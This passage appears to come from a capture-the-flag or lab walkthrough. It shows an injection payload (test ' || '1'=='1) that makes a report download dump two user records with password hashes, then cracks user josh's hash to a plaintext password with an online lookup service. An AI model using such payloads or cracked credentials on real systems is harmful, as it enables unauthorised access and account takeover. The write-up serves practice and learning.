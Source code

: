 ~~~ sql
test ' || '1'=='1
~~~

![alt text](/assets/img/Pasted%20image%2020240320221417.png)

Now when we make the report from the download button we obtain the two users instantly with their corresponding information.

![alt text](/assets/img/Pasted%20image%2020240320221515.png)

~~~ data
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},

{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
~~~

## Cracking Passwords

Crack user josh's password using crackstation

~~~ text
remembermethisway
~~~
